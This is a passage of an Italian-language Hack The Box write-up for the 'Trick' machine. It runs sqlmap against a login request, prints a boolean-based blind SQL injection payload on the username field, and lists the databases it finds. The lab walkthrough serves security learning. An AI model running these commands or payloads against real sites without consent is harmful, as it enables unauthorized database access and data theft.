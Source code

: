 
Il tempo è molto lento e so che ce n'è uno basato sul booleano. Specificherò la tecnica e salirò di livello di rilevazione di iniezione di SQL e la troverà:

```┌──(root㉿kali)-[/home/kali/htb/trick]
└─# sqlmap  -r login.req --batch --technique B --level 5
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.6#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:02:34 /2023-07-21/

[10:02:34] [INFO] parsing HTTP request from 'login.req'
[10:02:34] [INFO] resuming back-end DBMS 'mysql'
[10:02:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=admin' AND 6546=(SELECT (CASE WHEN (6546=6546) THEN 6546 ELSE (SELECT 3418 UNION SELECT 2270) END))-- -&password=admin
---
[10:02:34] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:02:34] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 10:02:34 /2023-07-21/
```

### Enumerate with sqlmap

Ora che sqlmap ha trovato la vulnerabilità, posso assegnargli ulteriori informazioni. Ad esempio, i database 

```
┌──(root㉿kali)-[/home/kali/htb/trick]
└─# sqlmap  -r login.req --batch --technique B --threads 10 --dbs

...<snip>...
available databases [2]:
[*] information_schema
[*] payroll_db

[10:08:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 10:08:53 /2023-07-21/
```
